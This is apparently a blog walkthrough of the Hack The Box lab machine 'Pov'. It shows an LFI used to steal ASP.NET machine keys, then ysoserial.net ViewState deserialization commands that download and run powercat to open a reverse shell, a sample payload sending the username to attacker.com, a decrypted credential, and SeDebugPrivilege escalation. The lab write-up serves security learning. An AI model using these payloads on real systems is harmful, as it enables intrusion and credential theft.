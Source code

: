 ```yaml
---
layout: post
title: "HTB Pov: Walkthrough"
date: 2024-11-29 10:00:00 +0000
categories: [HTB]
tags: [HTB, SeDebugPrivilege, Deserialization]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/033f1bbf-8a89-40cd-9c85-1f7648fedec3)


## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Privilege Escalation](#3-privilege-escalation)
4. [Privilege Escalation 2](#4-privilege-escalation-2)

## 1) Scans

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
```

Just port 80 is open, kinda odd to see that nowadays.

## 2) Web Enumeration

First thing I do is always manually interact and test the functionality of the website. In this case, there wasn't much to do. However, within the web-page, a hint to a different subdomain is found:

![image](https://github.com/user-attachments/assets/c1a3f134-b394-4609-8010-3af72c99c932)


And an email:
`sfitz@pov.htb`

Lets check out this new subdomain, whilst we run a domain bruteforce on the main webpage.

One thing I feel like is being hinted at, is the fact that the developer has a clear interesting of ASP.NET over the other languages, using bold for ASP.NET:

![image](https://github.com/user-attachments/assets/9b40e353-07f1-482a-ad2a-766a3b7e3b4d)

And if we inspect his CV:

![image](https://github.com/user-attachments/assets/a60c9ea0-4982-4b71-898f-4053a9f7df2e)

And them his testemonials:

![image](https://github.com/user-attachments/assets/193ba81e-7a01-43ad-9c3c-b2b0e315bce7)

Clearly hinting at something with ASP.Net.

So I started researching what possible vulnerabilities could be found within .NET, and the one that stood out to me was
`.NET Deserialization`.

In an extremely short and brief explanation as to how one could exploit that using `ysoserial.net`

```
ysoserial.net is a collection of utilities and property-oriented programming "gadget chains" discovered in common .NET libraries that can, under the right conditions, exploit .NET applications performing unsafe deserialization of objects. 

The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having gadgets on the classpath.
```


Now first we need to identify where we could even exploit such a vulnerability. If we head over to `contact.aspx` and intercept using Burpsuite, we can see that their is a `_VIEWSTATE`:

![image](https://github.com/user-attachments/assets/12cb4cbb-d16e-4a04-ba7e-3627bac94ff4)

Now here I did lots of research and this was my first time encountering a `deserialization` vulnerability. According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter), using the `__VIEWSTATE` parameter is a viable option and has been highly researched/tested.

Firstly, we need to know if that viewstate payload is _just_ base64 encoded, or if its encrypted and _then_ encoded. To do that, we can intercept with Burp and use an extension called `ViewState Editor` and head to that tab:

![image](https://github.com/user-attachments/assets/b7d843b0-fd4c-4883-8db1-c1bcbc2e1a4c)

Seems like its encrypted. In this case, we have 2 options. Either finding an LFI vulnerability to read the `web.config` file, or using a tool like `badsecrets` or `blacklist3r` to find the machine key. I first tried both tools, but had no luck with either, so I had to resort to trying to find an LFI.

I went back and intercepted the CV Download, to see what the request actually looked like. To my surprise, it was vulnerable to LFI:

![image](https://github.com/user-attachments/assets/50eb16a5-f410-45c8-ad6d-fe91bf421bf0)

![image](https://github.com/user-attachments/assets/92ae631e-56bd-4d1e-98fe-b578948d84e8)

Now we have the keys, we can encrypt and encode our own payload to put into the `__VIEWSTATE` parameter, using `ysoserial.net`, thanks again to [HackTricks](ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"):
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping -n 5 10.10.14.14" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

_(I originally tried providing the generator manually, but for some reason that doesn't work, and I had to provide the path, then it worked.)_

![image](https://github.com/user-attachments/assets/3e0498d5-68fc-4ffe-b8e5-5e0074a75e3e)

Lets get a shell now.
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.14/powercat.ps1');powercat -c 10.10.14.14 -p 1337 -e cmd" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

![image](https://github.com/user-attachments/assets/96c39125-bc01-4af6-aa5f-9872974c3a07)

## 3) Privilege Escalation

Found an interesting file in `C:\Users\sfitz\Documents`

![image](https://github.com/user-attachments/assets/c4059147-0076-4564-a8af-b56ea02b4596)

Found sfitz's hash, but not much we can do with it considering we're already that user.
```
sfitz::POV:1122334455667788:c8095b512261711c926811ea8202336c:0101000000000000ff3a884d4652da01b8f3b8969c4d2f70000000000800300030000000000000000000000000200000caced61e6f045ec58da479c9571625b0cfd41740f5ac10c64d7afffe23427d900a00100000000000000000000000000000000000090000000000000000000000
```

I looked into what we can do with that `connection.xml`file, and I noticed that you can use `Import-Clixml` alongside `GetNetworkCredential().password` to get the clear-text:

![image](https://github.com/user-attachments/assets/a6d0f160-a7b2-4942-8fdf-1425e14ef38e)
`f8gQ8fynP44ek1m3`

I tried using `RunAs` to run a reverse shell as that user, but for some reason no matter what I did it just would not work. 

I also tried using powershell:

![image](https://github.com/user-attachments/assets/e959cb61-62ba-4d5f-894f-ac92c1d93c0e)

So then I found out about `RunasCs`, which basically is a better version of `RunAs`, I just have to compile it on my host machine.

First I had to create a `.csproj` file with: 
_(I put `net4.5` since I assumed that's what the target machine was using from earlier. Dont know if it would have mattered though.)_
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net4.5</TargetFramework>
  </PropertyGroup>

</Project>
```

Then build it:

![image](https://github.com/user-attachments/assets/9d65df5f-ae66-4900-bbe1-0521b46e3a78)

Once uploaded:

![image](https://github.com/user-attachments/assets/b99f8b3f-c215-4c91-bd8f-f02ae1cddc5b)
![image](https://github.com/user-attachments/assets/7fb03194-8e5e-4c58-a41e-23bf2dfe75e7)

## 4) Privilege Escalation 2

If we run `whoami /priv`:

![image](https://github.com/user-attachments/assets/ac14a969-e94d-4431-86db-43b32f073ff9)

We can see we have `SeDebugPrivilege`, although it says its disabled. Usually we can try a variety of things to get it enabled, like getting a meterpreter shell, using `EnableAllTokenPrivs.ps1`, and probably other odd methods.

Now here, there's 2 ways we can go:

Either we can migrate to a different process using Metasploit, which would _(In my assumptions, do exactly what manually exploiting an SeDebug privilege would do, and inject itself/shellcode into the process id we give it)_ automatically giving us SYSTEM.

Or we can manually exploit it using `SeDebugPrivilegePoC.exe`, although we would have to compile it on our own machine manually since I wasn't able to compile it on the target. We also could try using `psgetsystem.ps1`. _(There is also xct's PoC as well)_

If we want to change the code that gets executed by `SeDebugPrivilegePoC.exe`, we can just alter it within the `.cs` file before compiling, at the `CreateProcess()` function.

In this case, I wasn't able to get any of the PoC's working, so I just resorted to the Metasploit method.

![image](https://github.com/user-attachments/assets/859354de-c3f1-4244-9775-1cf54c50dcbc)

Pwned.

